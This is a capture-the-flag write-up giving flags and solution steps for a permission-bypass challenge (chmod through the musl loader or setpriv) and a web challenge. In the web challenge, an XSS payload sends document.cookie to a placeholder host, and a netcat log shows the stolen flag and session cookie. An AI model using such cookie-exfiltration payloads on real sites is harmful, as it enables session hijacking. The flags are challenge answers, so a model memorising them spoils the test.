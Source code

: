 **Flag 1**: `CTF{4ll_D474_5h4ll_B3_Fr33}`

### Flag 2

`ORME.flag` contains a second flag.

```
> ls -lah /lib
total 3740
drwxr-xr-x    5 65534    65534       4.0K Jun 13 14:28 .
drwxr-xr-x   20 0        0           4.0K Jun 13 14:28 ..
drwxr-xr-x    3 65534    65534       4.0K May  9 20:49 apk
drwxr-xr-x    2 65534    65534       4.0K May  9 20:49 firmware
-rwxr-xr-x    1 65534    65534     570.6K Mar 19 09:56 ld-musl-x86_64.so.1
lrwxrwxrwx    1 65534    65534         19 May  9 20:49 libc.musl-x86_64.so.1 -> ld-musl-x86_64.so.1
-rwxr-xr-x    1 65534    65534       2.5M Mar 15 14:28 libcrypto.so.1.1
-rwxr-xr-x    1 65534    65534     507.5K Mar 15 14:28 libssl.so.1.1
lrwxrwxrwx    1 65534    65534         14 May  9 20:49 libz.so.1 -> libz.so.1.2.11
-rwxr-xr-x    1 65534    65534      97.8K Nov 15  2018 libz.so.1.2.11
drwxr-xr-x    2 65534    65534       4.0K May  9 20:49 mdev
> /lib/ld-musl-x86_64.so.1 /bin/busybox chmod +r ORME.flag
> tar c ORME.flag
ORME.flag0000444000247200024720000000004113503633511010226 0ustar  13381338CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}
```

Alternative:


```
> setpriv busybox chmod +r ORME.flag
> setpriv busybox cat ORME.flag
CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}
```

**Flag 2**: `CTF{Th3r3_1s_4lw4y5_4N07h3r_W4y}`



## day3-easier

**Government Agriculture Network** `[web]`

Site: <https://govagriculture.web.ctfcompetition.com/>

XSS attack: `<script>location.href='http://PUBLIC_URL/'+document.cookie</script>`

```
$ nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from localhost 48038 received!
GET /?flag=CTF{8aaa2f34b392b415601804c2f5f0f24e};%20session=HWSuwX8784CmkQC1Vv0BXETjyXMtNQrV HTTP/1.1
## ...
Referer: https://govagriculture.web.ctfcompetition.com/pwn?msg=%3Cscript%3Elocation.href%3D%27http%3A%2F%2FPUBLIC_URL%2F%27%2Bdocument.cookie%3C%2Fscript%3E
## ...
```
